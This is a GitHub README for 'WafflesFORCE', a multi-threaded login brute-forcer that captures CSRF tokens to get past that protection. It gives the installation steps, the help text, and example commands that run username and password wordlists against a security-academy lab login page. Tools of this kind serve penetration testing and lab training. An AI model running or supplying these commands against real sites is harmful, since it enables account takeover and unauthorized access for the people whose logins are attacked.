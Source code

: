 ![image](https://github.com/user-attachments/assets/207902fe-2e60-497b-9a79-1ddcb460b7ca)
### -> Multi-threaded Login brute-forcer with built-in CSRF token bypass
This tool is designed to brute force logins and bypass CSRF token protection. It achieves this by automatically capturing the CSRF token before each login attempt.

## Table of Contents
- [Features](#features)
- [Usage](#Usage)
  - [Examples](#examples)
- [Preview](#Preview)
- [Installation](#installation)
- [Commands](#Commands)
- [Contact](#contact)


## Features
- **Automatic CSRF Token Handling**: Automatically captures and uses CSRF tokens during brute force attempts.
- **Multi-threading**: Utilizes multiple threads to increase the speed of brute force attempts.
- **Flexible Configuration**: Supports custom regex patterns and parameter names for CSRF tokens.
- **Status Code and Regex Matching**: Validates login attempts using customizable status codes and regex patterns.
- **To be implemented**: Filter out based on status code and regex.

**Note:** Always open for feature/improvement suggestions.

## Usage
To use this script, specify the following:
```
--csrf-regex : A regex pattern to capture the CSRF token.
--csrf-param : The name of the CSRF token parameter.
```
This additional configuration ensures the script accurately captures and uses CSRF tokens during brute force login attempts.
### Examples
```Python
# Basic Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt
# Using CSRF URL Example
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

### Preview
![image](https://github.com/user-attachments/assets/6572f919-b586-405a-a365-ebeef00830a2)

## Installation
```bash
git clone https://github.com/WafflesExploits/WafflesFORCE.git
cd WafflesFORCE
python3 wafflesforce.py ...
```
## Commands 
```
╦ ╦╔═╗╔═╗╔═╗╦  ╔═╗╔═╗╔═╗╔═╗╦═╗╔═╗╔═╗
║║║╠═╣╠╣ ╠╣ ║  ║╣ ╚═╗╠╣ ║ ║╠╦╝║  ║╣ 
╚╩╝╩ ╩╚  ╚  ╩═╝╚═╝╚═╝╚  ╚═╝╩╚═╚═╝╚═╝
usage: wafflesforce.py [-h] [--host HOST] [-U [USERS]] [-u [USER]]
                       [-P [PASSWORDS]] [-p [PASSWORD]] [-cr CSRF_REGEX]
                       [-cp CSRF_PARAM] [-cu [CSRF_URL]] [-mr [MATCH_REGEX]]
                       [-ms [MATCH_STATUS]] [-d [DATA]] [-q [QUERY]]
                       [-t [THREADS]] [-o [OUTPUT]] [-vr] [--verbose]

-> Multi-threaded Login Bruteforcer for Bypassing CSRF Token Protection
 

options:
  -h, --help            show this help message and exit
  --host HOST           Target URL.
  -U [USERS], --users [USERS]
                        Path to usernames' wordlist file.
  -u [USER], --user [USER]
                        Specify a single username to use
  -P [PASSWORDS], --passwords [PASSWORDS]
                        Path to passwords' wordlist file.
  -p [PASSWORD], --password [PASSWORD]
                        Specify a single password to use
  -cr CSRF_REGEX, --csrf-regex CSRF_REGEX
                        Specify a Regex pattern to extract the CSRF token. Example:'name="csrf" value="(.*?)">'
  -cp CSRF_PARAM, --csrf-param CSRF_PARAM
                        Specify the CSRF token parameter name to be used in the login POST Request. Example:'csrf'
  -cu [CSRF_URL], --csrf-url [CSRF_URL]
                        URL path to fetch the CSRF token.
  -mr [MATCH_REGEX], --match-regex [MATCH_REGEX]
                        Match the specified regex pattern to verify login attempts. Example:'/login2'
  -ms [MATCH_STATUS], --match-status [MATCH_STATUS]
                        Match specified Status codes. Default:'200-299,301,302'
  -d [DATA], --data [DATA]
                        Body parameters for the POST request. Example:'username=*USER*&password=*PASS*'
  -q [QUERY], --query [QUERY]
                        Feature not added yet - Query parameters for the GET request
  -t [THREADS], --threads [THREADS]
                        Number of threads to use. Default: 5
  -o [OUTPUT], --output [OUTPUT]
                        Outputs results to a file.
  -vr, --verify         Set verify to false. Use this if the website does not support SSL. Example: Uses HTTP instead of HTTPS
  --verbose             Increase Verbosity. Use for debugging or giving more information about login attempts.

[Usage Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --output results.txt

[Using CSRF URL Example]
python3 wafflesforce.py --host "https://web-security-academy.net/login" --data 'username=*USER*&password=*PASS*' -U 'users.txt' -P 'passwords.txt' -mr '/login2' -ms '200-299,301,302' --csrf-param 'csrf' --csrf-regex 'name="csrf" value="(.*?)">' --threads 5 --csrf-url "https://web-security-academy.net/login" --output results.txt
```

## Contact
Created by [@WafflesExploits](https://wafflesexploits.github.io/about/) - I'm always open to features/improvement suggestions! You can reach me out on my socials :)
